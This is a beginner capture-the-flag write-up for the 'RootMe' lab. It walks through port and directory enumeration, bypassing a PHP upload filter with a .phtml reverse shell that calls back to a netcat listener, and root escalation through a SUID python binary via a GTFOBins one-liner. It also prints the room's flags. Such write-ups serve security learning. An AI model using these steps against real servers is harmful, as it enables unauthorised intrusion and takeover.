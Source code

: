 # RootMe

## Description

A ctf for beginners, can you root me?

## [Task 2] Reconnaissance

Let's start with an Nmap scan. The scan reveals two open ports:
* 22 ssh
* 80 http

### Initial Scan

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

From the result, we can answer the first few question:

Open ports: `2`

Apache version: `2.4.29`

Port 22 service: `SSH`

### Web Enumeration

Let's start with the webpage. The first thing I did, was running `gobuster` on the webpage and found two hidden directories:

~~~
$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP/ -x zip,txt,php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.40.107/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              zip,txt,php,html
[+] Timeout:                 10s
===============================================================
2021/10/20 09:09:08 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 310] [--> http://10.10.40.107/css/]
/index.php            (Status: 200) [Size: 616]                               
/js                   (Status: 301) [Size: 309] [--> http://10.10.40.107/js/] 
/panel                (Status: 301) [Size: 312] [--> http://10.10.40.107/panel/]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.40.107/uploads/]
~~~

Hidden directory: `/panel`

## [Task 3] Getting a Shell

We can uplaod files from `/panel` and we can see the uploaded files in `/uploads`. Let's upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell) and see what happens. (Don't forget to change the IP to yours.)
After uploading the file, it returns an error. It seems like the server doesn't accept the files with `php` extention:

<p align="center"><img src="./files/error.png"></p>

We can easily bypass this by changing the extention from `php` to `phtml` which was the standard file extension for PHP 2 programs:

~~~
$ mv shell.php shell.phtml
~~~

Now we try to uplaod the file again and it goes through:

<p align="center"><img src="./files/accept.png"></p>

Now we can start a listener and call the shell from `/uploads`:

Listener:
~~~
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
~~~

Calling the shell:
~~~
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
~~~

Now we have a shell as `www-data`. Let's spawn a TTY shell using a python one-liner:

~~~
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.3.156] from (UNKNOWN) [10.10.40.107] 60918
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:49:52 up 45 min,  0 users,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
bash-4.4$
~~~

Let's find the user flag. I used the `find` command since we know the name of it. The flag is in `/var/www`:

~~~
bash-4.4$ find / -type f -name "user.txt" 2>/dev/null
/var/www/user.txt
bash-4.4$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
~~~

user.txt: `THM{y0u_g0t_a_sh3ll}`

## [Task 4] Privilege escalation

Now we need to escalate our privilege to obtain the root flag. The hint tells us to look for the files with SUID permission. So I ran the following command and one file stands out:

~~~
bash-4.4$ find / -user root -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python     <----------------------------s
/usr/bin/chfn
/usr/bin/gpasswd

[REDACTED]
~~~

Weird file: `/usr/bin/python`

It's kinda weird to see `python` here. I looked it up in [GTFOBins](https://gtfobins.github.io/) and in the SUID section we can see a privesc command. Let's run it and see what happens:

~~~
bash-4.4$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# whoami
root
~~~

### Root Flag

And it works. We are root now, so let's go ahead and read the root flag in `/root`:
\
~~~
# cd /root
# ls
root.txt
# cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
~~~

root.txt: `THM{pr1v1l3g3_3sc4l4t10n}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and have a good one! : )
